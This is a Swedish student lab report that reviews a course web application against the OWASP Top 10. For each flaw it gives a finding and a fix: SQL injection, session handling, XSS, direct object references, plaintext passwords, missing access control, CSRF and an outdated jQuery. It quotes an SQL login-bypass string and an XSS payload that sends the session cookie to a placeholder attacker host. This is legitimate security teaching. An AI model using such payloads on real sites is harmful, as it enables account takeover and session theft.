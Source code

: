 Ingela Bladh (ib222dp)

# Rapport, Labb 2

## Säkerhetsproblem

### Injektion

Injektion innebär att opålitlig data skickas till en programtolk som en del av ett kommando eller en fråga. Denna 
opålitliga data kan lura programtolken till att utföra kommandon eller ge åtkomst till data utan auktorisering [1, s. 6]. 
Jag kunde i denna applikation logga in genom att ange Bob' OR '1'='1 som lösenord, eftersom sökfrågan blir
SELECT * FROM user WHERE ... password = 'Bob' OR '1'='1'.  
Injektion undviks genom att använda parametriserade sökfrågor, eftersom dessa förhindrar förvirring rörande specialtecken 
som '. Till exempel skulle databasen i detta fall sökas igenom för att hitta ett lösenord som innehåller ' OR '1='1 [2]. 
Validering av indata och vitlistning av tecken rekommenderas också, men är inte ett fullständigt skydd eftersom många 
applikationer behöver acceptera specialtecken som indata [1, s. 7].  

### Bristande autentisering och sessionshantering

Funktioner som har med autentisering och sessionshantering att göra implementeras ofta på ett felaktigt sätt. På så 
sätt kan angripare komma över lösenord, nycklar eller sessionstokens, eller utnyttja andra brister i implementationen
för att anta andra användares identiteter [1, s. 6]. I denna applikation förstörs inte sessionen vid utloggning. Detta
betyder att om en användare loggar in på applikationen på en publik dator och sedan loggar ut, så kan en annan användare
komma in på den tidigare användarens konto genom att trycka på bakåt-knappen eller skriva in `.../message` i 
webbläsarens adressfält. I detta fall bör man se till att sessionen förstörs vid utloggning, och att sessionen 
förstörs automatiskt efter en viss tid (eftersom användare kan använda applikationen på en publik dator och sedan stänga 
webbläsaren utan att logga ut) [1, s. 8].

### XSS (cross-site scripting)

XSS-brister uppstår när en applikation accepterar opålitlig data och skickar den till en webbläsare utan ordentlig
validering eller escape-sekvenser. Via XSS kan angripare exekvera skript i offrets webbläsare, vilka kan stjäla 
sessioner, förvanska webbplatser eller dirigera om användaren till skadliga webbplatser [1, s. 6].  
I denna applikation går det att skriva `<a href='#' onclick='alert(document.cookie)'>Hej</a>` som ett meddelande, 
och när man sedan klickar på länken syns sessionskakan i ett varningsfönster. Detta innebär att en angripare kan stjäla 
en användares sessionskaka och på så sätt få tillgång till dennes konto, genom att skriva till exempel 
`<script>document.location='http://attackersite/'+document.cookie</script>` som ett meddelande [2].  
XSS-brister undviks genom att validera indata och filtrera utdata [3]. Vitlistning av tillåtna tecken rekommenderas men 
är inte ett fullständigt skydd. Vilka escape-sekvenser som bör användas för utdata beror på kontexten som utdatan ska 
placeras i (till exempel HTML, Javasript eller CSS) [1, s. 9].

### Osäkra direkta objektreferenser

En direkt objektreferens inträffar när en utvecklare exponerar en referens till ett internt implementationsobjekt, som
till exempel en fil, en katalog eller en databasnyckel. Vid avsaknad av åtkomstkontroll eller annat skydd kan angripare
manipulera dessa referenser för att få åtkomst till data utan auktorisering [1, s. 6]. I denna applikation exponeras
varje meddelandes databasnyckel i ett dolt fält i HTML-koden, och eftersom ingen åtkomstkontroll görs i funktionerna
som har med radering av meddelanden att göra, skulle en användare kunna radera en annan användares meddelanden.  
Man kan undvika osäkra direkta objektreferenser genom att använda indirekta objektreferenser per användare eller per 
session. Till exempel kan en användare få se en numrerad dropdown-lista med de resurser hen har tillgång till, 
och applikationen kartlägger sedan vilken databasnyckel som numret framför resursen som användaren har valt matchar. Om 
direkta objektreferenser används är det viktigt att kontrollera att användaren är auktoriserad att få tillgång till det 
begärda objektet [1, s. 10].  

### Exponering av känslig data

Känslig data bör inte lagras eller transporteras i klartext. Angripare kan stjäla eller ändra dåligt skyddad data för 
att genomföra till exempel kreditkortsbedrägeri eller identitetsstöld [1, s. 6]. I denna applikation verkar lösenord 
sparas i klartext i databasen.  
Lösenord ska lagras med en algoritm som utformats speciellt för lösenordsskydd, som till exempel bcrypt, PBKDF2 eller 
scrypt [1, s. 12]. De ska inte krypteras utan hashas, eftersom krypterade lösenord kan dekrypteras. För att skydda mot 
att läckta hashade lösenord slås upp mot regnbågstabeller ska ett slumpat salt läggas till varje lösenord. För att 
försvåra "brute force"-attacker kan man hasha lösenordet flera gånger [3].  

### Saknad åtkomstkontroll på funktionsnivå

Utöver åtkomstkontroller på klienten måste applikationer också utföra åtkomstkontroller på servern varje gång en 
funktion anropas. Utan dessa kontroller kommer angripare att via egna anrop kunna komma åt funktionalitet utan
auktorisering [1, s. 6]. I denna applikation kan man komma åt meddelandena utan att logga in, genom att skriva in 
`.../message/data` i webbläsarens adressfält. Detta kan undvikas till exempel genom att lägga till en åtkomstkontroll 
i funktionen "getMessages" i filen "messageModel.js". Det är inte tillräckligt att inte visa länkar eller knappar till 
skyddade funktioner, utan åtkomstkontroller måste också utföras på servern [1, s. 13].

### CSRF (cross-site request forgery)

En CSRF-attack innebär att en inloggad användares webbläsare tvingas att skicka ett förfalskat http-anrop - som innehåller
användarens sessionskaka och annan automatiskt inkluderad autentiseringsinformation - till en sårbar webbapplikation.
På så sätt kan angriparen tvinga användarens webbläsare att skapa anrop som den sårbara applikationen tror är legitima
anrop från användaren [1, s. 6]. Denna applikation verkar inte ha tillräckligt skydd mot CSRF-attacker eftersom det inte
finns några dolda fält med slumpmässigt genererade värden i formulären. 

### Användning av komponenter med kända sårbarheter

Komponenter, som till exempel bibliotek, ramverk och andra programvarumoduler, körs nästan alltid med fullständiga 
rättigheter. Om en sårbar komponent utnyttjas kan en sådan attack medföra allvarlig dataförlust eller serverövertagande.
Om en applikation använder komponenter med kända sårbarheter kan detta undergräva applikationens försvarsmekanismer och
möjliggöra en rad attacker [1, s. 6]. I denna applikation verkar en gammal version av Jquery användas (v 1.10.2).

## Prestandaproblem



## Övergripande reflektioner



## Referenser

Ref | Källa
--- | :------:
[1] | OWASP, "OWASP Top 10 - 2013 - The ten most critical web application security risks", *OWASP*, september 2015   
    | [Online] Tillgänglig: <https://www.owasp.org/index.php/Top10#OWASP_Top_10_for_2013>. [Hämtad: 23 november, 2015].  
[2] | M. Coates, "Application Security - Understanding, exploiting and defending against top web vulnerabilities",   
    | *Youtube*, mars 2014 [Online] Tillgänglig: <https://www.youtube.com/watch?v=sY7pUJU8a7U>. [Hämtad: 23 november, 2015].  
[3] | J. Leitet, "Webbteknik II - HT13 - Webbsäkerhet", *Youtube*, november 2013 [Online]  
    | Tillgänglig: <https://www.youtube.com/watch?v=Gc_pc9TMEIk>. [Hämtad: 23 november, 2015].